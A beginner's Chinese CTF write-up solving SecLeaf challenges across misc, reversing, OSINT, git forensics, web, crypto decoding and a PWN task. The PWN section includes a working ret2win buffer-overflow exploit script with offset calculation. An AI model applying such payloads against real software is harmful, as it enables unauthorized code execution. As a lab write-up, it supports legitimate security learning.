先叠个甲：
- 这是一场很水的比赛
- 内容也很基础，没有技术含量

# `Misc`

## 1.`Digital Rockstar`
### 题目描述
```txt
Some programmers write code. Others write poetry.
Can you understand this digital rockstar?
> every space matters.also i is not i
Flag Format: SecLeaf{}

有些程序员编写代码，另一些则书写诗篇。
你能读懂这位“数字摇滚巨星”吗？
每一个空格都至关重要；此外，“i”亦非彼“i”。
```
```txt
（附件内容）
Midnight is Sec
Shadow is leaf
Chaos is poetry 
Neon is is fun

Dreams are Midnight with Shadow with Chaos with Neon

Say Dreams

```

### 解题思路
1‍⃣**识别语言**:
根据文件拓展名`.rock`与代码风格（类似歌词的语法），可以识别出这是`"Rockstar"`语言
```txt
Rockstar 是一门专门为创意程序员设计的动态类型、图灵完备的“纵欲型”编程语言。它的语法完全基于 20 世纪 80 年代重摇滚和强力情歌（Power Ballads）的歌词 convention 编写，这意味着你的代码即可以是程序，同时也是一首完整的摇滚歌曲。
```

2‍⃣**了解语法**：
`Rockstar` 语言的关键特性：
- `is` / `are` / `was`：变量赋值
- `with`：字符串拼接
- `Say` / `Shout` / `Whisper`：输出
- **Poetic Numbers（诗意数字）**：当赋值语句右侧不以数字或关键字开头时，每个单词的字母数会被解析为十进制数字（忽略空格和非字母字符）

3‍⃣**尝试标准解析：**
按照 `Rockstar` 标准的 `poetic number` 规则解析：

| 变量       | 右侧内容       | 字母数 → 数字    |
| -------- | ---------- | ----------- |
| Midnight | `Sec`      | 3 → `3`     |
| Shadow   | `leaf`     | 4 → `4`     |
| Chaos    | `poetry`   | 6 → `6`     |
| Neon     | `is` `fun` | 2, 3 → `23` |

拼接结果：`34623` — 这显然不是 `flag`。

4‍⃣**分析异常与提示：**
仔细观察代码，发现两处异常：
1. **第 3 行**：`Chaos is poetry ` — `poetry` 后面有一个**多余的空格**
2. **第 4 行**：`Neon is is fun` — 出现了**两个 `is`**

结合提示 **`"every space matters"`** 和 **`"i is not i"`**，可以推断：
- 不要使用 `Rockstar` 的标准 `poetic number` 解析
- 将 `is` 右侧的内容视为**原始字符串**
- 将字母 `i` 替换为数字 `1`

5‍⃣**按原始字符串解析：**
将每个变量 `is` 右侧的内容作为原始字符串提取（保留所有空格和字符）：

| 变量         | 右侧原始字符串               |
| ---------- | --------------------- |
| `Midnight` | `Sec`                 |
| `Shadow`   | `leaf`                |
| `Chaos`    | `poetry `（含尾部空格）      |
| `Neon`     | `is fun`（第二个 `is` 开始） |
拼接后得到：`Secleafpoetry is fun`
**同时将`i`替换为`1`**，最后的`flag`
```txt
SecLeaf{poetry_1s_fun}
```

---

## 2.`The Invoice Incident`
### 题目描述
```txt
The Invoice Incident

At 09:14 AM, a finance employee reported receiving an urgent invoice email. Shortly after, suspicious activity began on the host.

You have been provided mail and endpoint logs collected during the incident.

Analyze the logs carefully, determine the malicious attachment responsible for the compromise, and submit the flag.

发票事件

上午 09:14，一名财务人员报告收到了一封紧急发票邮件。此后不久，主机上便出现了可疑活动。

您已获提供在此次事件期间收集的邮件日志及终端日志。

请仔细分析这些日志，找出导致系统沦陷的恶意附件，并提交 Flag。
```

### 解题思路
事件起点：`At 09:14 AM + receiving an urgent invoice email`，九点十四分收到邮件，所以先找`09：14`左右的邮件
```bash
grep -i "invoice" *
```

由此我们可以看出：
```txt
发件人：billing@micr0soft-support.com
收件人：finance.aarti
主题：Pending Invoice Notice
附件：Invoice_April_2026.docm
```
初步判定这个就是可疑邮件

> 1‍⃣该邮件与题目十分吻合；  
> 2‍⃣发件人十分可疑——**发件人邮箱**中`microsoft`的`o`被替换成`0`；  
> 3‍⃣附件很可疑——附件为`.docm`格式，攻击者经常把恶意命令藏在宏里

但是这样并不能完全确定，所以接下来查看`endpoint`日志（电脑行为日志）

由日志可以看出：`09：16`时确实打开了`Invoice_April_2026.docm`文件，而紧接着启动了`powershell`并连接了`198.51.100.24:80`
```txt
PowerShell 是 Windows 上执行命令的工具。攻击者很喜欢用它下载恶意程序、执行脚本、连接远程服务器。
-enc 通常表示命令是 Base64 编码过的 PowerShell 命令。攻击者经常这样做，是为了让命令看起来不明显。
```

由以上信息我们可以判断，`Invoice_April_2026.docm`是导致可疑行为的恶意附件
```txt
SecLeaf{Invoice_April_2026.docm}
```

---

## 3.`wrong_turn`
### 题目描述
```txt
There is Secure vault which has hard coded flag in it.

Decrypt the password to unlock the vault.

Flag Format: SecLeaf{}

此处有一个安全保险库，其中硬编码了一个 Flag。

解密密码以解锁该保险库。
```

### 解题思路
1‍⃣**先查看文件类型**
结果为：
```txt
wrong_turn: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), statically linked, no section header
```
所以可以看出
```txt
ELF 64-bit        64 位 Linux 可执行文件
x86-64            x86-64 架构
statically linked 静态链接
no section header 没有 section header，可能被处理/加壳过
```
所以这是一道`Linux`逆向题

2‍⃣ **运行程序**

所以需要先给执行权限再运行
```bash
chmod +x wrong_turn
./wrong_turn
```
运行后需要输入密码，随便输入一个得到`Access denied`的结果，所以程序逻辑大概是：
```txt
检查调试器
    ↓
提示输入密码
    ↓
校验密码
    ↓
密码正确就输出 flag
```


3‍⃣**先用`Strings`查看明文线索**
能看到：
```txt
UPX!
Debugger check
Decrypting secure vault
Enter password:
Access gra
9Leaf{ha'\d
7Jts_agaZ}4
```
**`UPX`**——说明程序很可能被`UPX`加壳了

>`UPX`（全称 `Ultimate Packer for eXecutables`）是一款免费、开源且跨平台的可执行文件压缩工具。它主要用于对二进制程序（如 `.exe`、`.dll`、`.so` 等）进行无损压缩，通常可将文件体积缩小`%50`至`%70`

```txt
9Leaf{ha'\d
7Jts_agaZ}4
```
这看起来像被扰乱过的 `flag` 片段，但不是完整明文。所以光靠 `strings` 不够，需要进一步分析程序运行后的真实内容。

4‍⃣**对程序进行脱壳并运行**
```bash
upx -d wrong_turn -o wrong_turn_unpacked
chmod +x wrong_turn_unpacked
./wrong_turn_unpacked
```
  

5‍⃣**重新查找字符串**


---

# `OSINT`
## `Can_you_Find_Cafe`
### 题目描述

```txt
A single image holds all the clues you need. Study the surroundings carefully and identify the exact location where it was taken. Accuracy matters.

Use "_" instead of spaces.

Flag Format: SecLeaf{Name_of_the_place+Location_name}
```

### 解题思路
用谷歌识图，选择 **“外观匹配”** 

第一篇文章打开后得到这间咖啡店的简介

根据内容即可得到`flag`
```txt
SecLeaf{Cafe_Goodluck+Deccan_Gymkhana}
```

---

# `Forensics`

## 1.`Force-push-wont-save-you`
### 题目描述
```txt
A developer force-pushed several times before the repository was archived.

We suspect sensitive data may still exist somewhere in the project history.

Some objects may no longer be referenced.

Flag format: SecLeaf{}

在代码库归档之前，一位开发者多次强制推送了代码。

我们怀疑项目历史记录中可能仍然存在敏感数据。

某些对象可能已不再被引用。
```

### 解题思路
1‍⃣**先将附件解压并查看里面包含的文件**
```bash
unzip challenge.zip
cd force-push-wont-save-you
ls -la
```

解压后由`.git`，同时又结合题目
>`force-pushed several times`    
>`project history`   
>`objects may no longer be referenced`      

所以我们除了看当前文件，还要看`Git`历史与`Git`对象

2‍⃣**先看当前文件**
```bash
cat app.js
```

由
```txt
TODO REMOVE HARDCODED TOKEN
```
我们可以看出以前可能真的提交过敏感信息，但后来被删除了——所以继续查历史

3‍⃣**查询所有能看到的提交历史**
```bsah
git log --oneline --all --decorate --graph
```

从`"remove sensitive file before push"`推测有删除，于是查看
```bash
git show 0fbc9b5:.env 
```

所以这个不是真正的`flag`

或者也可以直接在所有正常历史里搜索`flag`
```bash
git grep -n "SecLeaf" $(git rev-list --all)
```

也不是真正的`flag`

4‍⃣**根据题目说的“Some objects may no longer be referenced”，所以查 dangling objects**
```bash
git fsck --full --no-reflogs --lost-found
```

分别查看`commit`与`blob`

但是这两个也是假的`flag`。到这里发现题目在故意引导只查`Git`历史与`dangling objects`，但这些都是假的

5‍⃣**继续全局搜索整个目录**
因为前面找到的全是假的`flag`，所以应该扩大范围
```bash
grep -RIn --binary-files=text "SecLeaf" .
```


---
## 2.`needle_in_context`
### 题目描述
```txt
During a failed forensic recovery attempt, several debug logs were partially reconstructed.

Investigators believe some entries may still contain fragments of sensitive data.

Be warned: not every recovery artifact is trustworthy.

Flag format: SecLeaf{}

在一次失败的取证恢复尝试中，部分调试日志被成功重建。

调查人员认为，某些日志条目可能仍然包含敏感数据片段。

请注意：并非所有恢复产物都可信。
```

### 解题思路
1‍⃣**解压文件、查看文件内容**：解压后看到大量的日志文件；同时根据题目可以看出：**`flag`是拼接而成的**，同时还会有很多假的`flag`

2‍⃣**先搜索`SecLeaf`**：
```bash
grep -RIn "SecLeaf" .
```

有搜索结果，但是这些都是`{temporary_xxxxx}`——无用的`flag`

3‍⃣**搜索可能的碎片关键词**
题目说
```txt
fragments of sensitive data
敏感数据碎片
```
所以继续搜索关键词
```bash
grep -RIn "fragment\|chunk\|recovered\|orphan\|cache\|last" .
```
在搜索出来的结果中看见了：

**`5365634c`转成文本就是`SeclL`**
所以接下来将搜索出来的`hex`转成文本，并从其中提取有效字符串，按合理的顺序拼接起来
```bash
grep -RIn "fragment\|chunk\|recovered\|orphan\|cache\|last" . \
| grep -Eo '[0-9a-fA-F]{8,}' \
| while read x; do echo "$x -> $(echo "$x" | xxd -r -p)"; done
```

```txt
SecLeaf{context_is_the_real_enemy}
```

---

# `Web`
## 1.`Hidden_panel`
### 题目描述
```txt
We discovered a partially exposed internal web portal during reconnaissance.

Developers claimed sensitive endpoints were “properly hidden.”

Can you discover what was left behind?

Link: [https://s3.secleaf.tech/](https://s3.secleaf.tech/)

Flag format: SecLeaf{}

在侦察阶段，我们发现了一个部分暴露的内部 Web 门户。

开发人员声称，敏感端点已“妥善隐藏”。

你能否找出那些被遗留下的内容？
```

### 解题思路
1‍⃣先查看源码，并没有发现什么关于`flag`的线索
2‍⃣于是检查`robots.txt`，在最下面找到了`flag`
```txt
https://s3.secleaf.tech/robots.txt
```


---

# `PWN`
## 1.`ret2win`
### 题目描述
```txt
A vulnerable SECLEAF access terminal was recovered from a decommissioned internal server.

The developers claimed the system was "unbreakable."

Can you prove otherwise?

Flag Format: SecLeaf{}

一个存在漏洞的 SECLEAF 访问终端已从一台已停用的内部服务器中恢复。

开发人员声称该系统“坚不可摧”。

你能证明他们的说法是错误的吗？
```

### 解题思路
1‍⃣**先查看文件类型**
```bash
file ret2win
```
得到的结果是：
```txt
ELF 64-bit LSB executable, x86-64
```
说明它是：
```txt
64位Linux可执行文件
```

>`ELF`:
>	`Windows`程序常见格式：`PE`，比如`.exe`
>	`Linux`程序常见格式：`ELF`
>`executable`：可执行文件，即可以运行

2‍⃣**看程序里有没有明显字符串**
```bash
strings -a ret2win
```

其中：
```txt
Access Granted!
Flag:%s
```
非常像程序成功后会打印的内容
结合题目名`ret2win`，可以推测程序里大概存在一个`win`函数用来打印`flag`

3‍⃣**继续查看函数符号**
继续使用`nm`查看函数名和地址
```bash
nm -n ret2win
```
可以看到：
```txt
0000000000401166 T decode
00000000004011b1 T win
000000000040123b T vuln
000000000040128d T main
```
这里重点关注两个函数：
```txt
win  地址：0x4011b1
vuln 地址：0x40123b
```
`win`函数就是我们想要跳转过去的目标函数

4‍⃣**分析`vuln`函数**
使用 `objdump` 反汇编：
```bash
objdump -d -M intel ret2win
```
找到`vuln`函数：


> ```asm
> sub rsp,0x40
> ```
> 说明程序在栈上开辟了`0x40`字节空间
> `0x40`换成十进制为`64`，也就是说：局部变量缓冲区大小为64字节

>```asm
>mov esi,0xc8
>call fgets
>```
>`0xc8`换成十进制为`200`：说明程序用`fgets`最多读取200字节输入

也就是说：
```txt
缓冲区只有64字节，但程序允许输入200字节
```
这就造成了栈溢出

5‍⃣**计算偏移量**
64 位程序中，函数栈结构大概如下：
```txt
低地址
[ buffer 64 字节 ]
[ saved rbp 8 字节 ]
[ return address 8 字节 ]
高地址
```
程序的`buffer`位于：
```asm
[rbp-0x40]
```
所以`buffer`到返回地址之间需要填充：
```txt
64 字节 buffer + 8 字节 saved rbp = 72 字节
```
因此返回地址偏移量是：`72`;
`payload`结构为：
```txt
"A" * 72 + win函数地址
```

6‍⃣**构造`payload`**
前面通过 nm 得到：
```txt
win = 0x4011b1
```
由于 `x86-64`使用小端序，所以地址 `0x4011b1`写入内存时应为：
```txt
b1 11 40 00 00 00 00 00
```
可以用 `Python` 的 `struct.pack` 来处理：
```python
struct.pack("<Q", 0x4011b1)
```
其中：
```txt
< 表示小端序
Q 表示 8 字节无符号整数
```
最终 `exp` 如下：
```python
import sys
import struct

payload = b"A" * 72
payload += struct.pack("<Q", 0x4011b1)

sys.stdout.buffer.write(payload + b"\n")
```
运行：
```bash
python3 exp.py | ./ret2win
```

7‍⃣**获取`flag`**
执行后程序成功跳转到 `win` 函数，输出：
```txt
Access Granted!
Flag: SecLeaf{sm4sh_th3_st4ck}
```

8‍⃣**总结：**
整体思路：
```txt
查看文件类型
        ↓
发现是 64 位 ELF
        ↓
strings 发现 Access Granted 和 Flag 字符串
        ↓
nm 找到 win 函数地址
        ↓
objdump 分析 vuln 函数
        ↓
发现 buffer 只有 64 字节，但 fgets 读取 200 字节
        ↓
计算偏移：64 + 8 = 72
        ↓
构造 payload：72 字节填充 + win 地址
        ↓
覆盖返回地址，跳转到 win
        ↓
获得 flag
```

---

# `Cryptography`
## 1.`Double Trouble`
### 题目描述
```txt
We intercepted a suspicious encoded transmission during routine monitoring.

Analysts believe the message was processed through multiple transformation layers before being transmitted.

Can you recover the original message?

我们在例行监控中截获了一条可疑的加密传输信息。

分析人员认为，该信息在传输前经过了多层转换处理。

您能恢复原始信息吗？
```
附件：
```txt
526e4a7757584a756333737759544e66655452734d325666616a526d5957
64664d3245776148523166513d3d0a
```

### 解题思路
1‍⃣ **判断第一层编码**
由于附件内容仅含：
```txt
0-9
a-f
```
且长度为**偶数**，所以可以判断它像**十六进制编码**
使用`xxd`解码：
```bash
cat encrypted.txt | tr -d '\n' | xxd -r -p
```
执行后得到：
```txt
RnJwWXJuc3swYTNfeTRsM2VfajRmYWdfM2EwaHR1fQ==
```

2‍⃣ **判断第二层编码：**
第二层很轻易地判断出为`base64`，所以继续解码：
```txt
cat encrypted.txt | tr -d '\n' | xxd -r -p | base64 -d
```
得到：
```txt
FrpYrns{0a3_y4l3e_j4fag_3a0htu}
```
因为得到的结果开头不是`SecLeaf`，所以还要进行解码

3‍⃣ **第三层解码**
试着对第三层的开头简单的替换：
```txt
F -> S
r -> e
p -> c
Y -> L
r -> e
n -> a
s -> f
```
推测替换规则为：
```txt
A ↔ N
B ↔ O
C ↔ P
...
a ↔ n
b ↔ o
c ↔ p
...
```
后面查`AI`，为`ROT13`
```bash
cat encrypted.txt | tr -d '\n' | xxd -r -p | base64 -d | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```
得到：
```txt
SecLeaf{0n3_l4y3r_w4snt_3n0ugh}
```

---

# 碎碎念
- 这场比赛应该是我参加的第一场有效比赛。为什么是有效呢？因为之前也参加过几场`CTF`比赛，但那时一是在寒假（我游戏瘾最大的一段时间），二是那时还停留在`DeepSeek`（也没有说`ds`不好用的意思），参与度就仅限于报名了。
- 报名这场比赛时我只是想着给我的周末“找事干”，同时还没有用`GPT`打过比赛，另外还有在过去大半年也断断续续学了点（真的只有一点），想着检测一下学习成果。有点不好意思的是，比赛刚开始时除了签到题我是自己做的外，其他题目都是直接用`AI`梭（虽然这后来看了下其中很多题也差不多属于签到题，连我这样的水平也能一眼看到解题思路）。“二战转折点”在`Can_you_Find_Cafe`出来后，我已经从最开始打比赛时追求排名的激情转向了“得把梭出来的题自己做一遍”，于是就尝试了一下那道社工题。

（这是我们队成绩最好的一次了）